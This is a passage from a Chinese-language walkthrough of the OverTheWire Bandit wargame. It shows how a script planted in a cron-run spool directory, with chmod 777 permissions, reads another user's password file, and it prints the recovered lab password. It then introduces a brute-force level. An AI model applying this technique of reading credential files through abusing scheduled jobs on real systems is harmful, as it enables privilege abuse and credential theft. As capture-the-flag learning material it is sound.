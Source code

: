 ```sh
$ mktemp -d
/tmp/tmp.vcwnLe4j7i
$ cd /tmp/tmp.vcwnLe4j7i
```

创建一个脚本，以及一个输出文件

```sh
$ touch password
$ vim getpass.sh
$ chmod 777 getpass.sh
# change the directory permissions
$ chmod 777 .
$ cp getpass.sh /var/spool/bandit24
```

 脚本如下

```sh
#!/bin/bash
        
cat /etc/bandit_pass/bandit24 > /tmp/tmp.vcwnLe4j7i/password                                       
```

把密码输出

```sh
$ cat password 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

得到密码

```
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

# Level 24 → Level 25

## 目标

一个守护进程在端口30002上监听，如果给了bandit24的密码和一个秘密的4位数字密码，就会给你bandit25的密码。除了通过所有的10000个组合，也就是所谓的蛮力逼迫，是没有办法获取密码的。

## 我不知道我在说什么

